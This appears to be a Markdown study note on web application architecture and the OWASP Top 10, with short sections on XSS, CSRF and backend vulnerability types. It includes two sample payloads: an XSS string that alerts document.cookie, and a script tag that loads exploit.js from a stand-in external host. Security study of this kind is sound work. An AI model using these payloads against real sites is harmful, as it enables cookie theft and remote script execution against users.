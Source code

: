 
# Web Application Layout

three main categories:
- Web Application Infrastructure: 
	-  `Client-Server`
	-  `One Server`
	-  `Many Servers - One Database`
	-  `Many Servers - Many Databases`
- Web Application Components: 
	1.  `Client`
	2.  `Server`
	    -   Webserver
	    -   Web Application Logic
	    -   Database
	3.  `Services`  (Microservices)
	    -   3rd Party Integrations
	    -   Web Application Integrations
	4.  `Functions`  (Serverless) 
- Web Application Architecture: three layers
	- Presentation Layer: frontend
	- Application Layer: backend
	- Data Layer: database
# [OWASP Top 10](https://owasp.org/www-project-top-ten/) vulnerabilities
1. Broken Access Control
2. Cryptographic Failures 
3. Injection
4. Insecure Design
5. Security Misconfiguration
6. Vulnerable and Outdated Components
7. Identification and Authentication Failures
8. Software and Data Integrity Failures
9. Security Logging and Monitoring Failures
10. Server-Side Request Forgery (SSRF)
# FrontEnd Vulnerabilities
## Cross-Site Scripting (XSS)
- **3 types**: `Reflected XSS`, `Stored XSS`, `DOM XSS`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
	 
```html
"><script src=//www.example.com/exploit.js></script>
```

# BackEnd Vulnerabilities
## Broken Auth/Access Control (Bypass login)
## Malicious File Upload
## Command Injection
## SQL Injection (SQLi)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwODQwMTM4NjQsMTk2NTg1Njg2Ml19
-->